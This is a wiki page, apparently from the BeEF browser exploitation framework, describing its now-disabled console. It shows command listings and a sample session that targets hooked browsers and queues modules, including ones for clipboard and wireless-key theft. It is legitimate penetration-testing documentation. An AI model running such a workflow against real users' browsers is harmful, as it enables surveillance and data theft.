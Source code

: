 _**The console extension is currently **disabled** and **unsupported**, this page is kept for historical purposes only in the case that this is enabled again.**_

## Introduction

BeEF includes a metasploit-like console. This console can be used to control hooked browsers and send modules.

## Configuration

The BeEF console is an extension which should be enabled in the main _config.yml_ file.

## Utilization

The console is automatically launched with the beef script.

### Help

```
Core Commands
=============

    Command       Description
    -------       -----------
    ?             Help menu
    back          Move back from the current context
    exit          Exit the console
    help          Help menu
    irb           Drops into an interactive Ruby environment
    jobs          Print jobs
    offline       List previously hooked browsers
    online        List online hooked browsers
    quit          Exit the console
    review        Target a particular previously hooked (offline) hooked browser
    show          Displays 'zombies' or 'browsers' or 'commands'. (For those who prefer the MSF way)
    target        Target a particular online hooked browser
```

### Hooked browsers

```
BeEF > online

Currently hooked browsers within BeEF

Id  IP        Browser  OS
--  --        -------  --
6   10.1.1.1  C-21     Linux

BeEF > offline

Previously hooked browsers within BeEF

Id  IP        Browser  OS
--  --        -------  --
1   10.1.1.2  FF-15    Windows XP
[...]
```

### Jobs

```
BeEF > jobs -l

Id  Job Name
--  --------
0   http_hook_server
```

### Launch module

**Select the target zombie**:
```
BeEF > target 6
```

**List available modules** :
```
BeEF (10.1.1.1) [6] > commands

List command modules for this target
Id   Command                                               Status       Execute Count
--   -------                                               ------       -------------
1    Host/Hook_Default_Browser                             User Notify  0
2    Host/Detect_CUPS                                      Working      0
3    Host/Get_Clipboard                                    Not Working  0
4    Host/Get_Registry_Keys                                Not Working  0
5    Host/Get_Wireless_Keys                                User Notify  0
[...]
```

**Select a module**:
```
BeEF (10.1.1.1) [6] > select 66
```

**See information on the module**:
```
BeEF (10.1.1.1) [6] / Detect Google Desktop > cmdinfo
Module name: Detect Google Desktop
Module category: Host/
Module description: This module attempts to detect Google Desktop running on the default port 4664.
```

**Launch the module**:
```
BeEF (10.1.1.1) [6] / Detect Google Desktop > execute
[*] Command successfully queued
[13:21:24][*] Hooked browser [id:6, ip:10.1.1.1] has been sent instructions from command module 'Detect Google Desktop'
```

**See response**:
```
BeEF (10.1.1.1) [6] / Detect Google Desktop > response

List of responses for this command module:
Id  Executed Time     Response Time
--  -------------     -------------
48  2012-10-15 13:18  2012-10-15 13:19:04 +0200
51  2012-10-15 13:21  2012-10-15 13:21:29 +0200

BeEF (10.1.1.1) [6] / Detect Google Desktop > response 51
Results retrieved: 2012-10-15 13:21:29 +0200

Response:
google_desktop=Not Installed
```
***
[[Previous|Notifications]] | [[Next|Module creation]]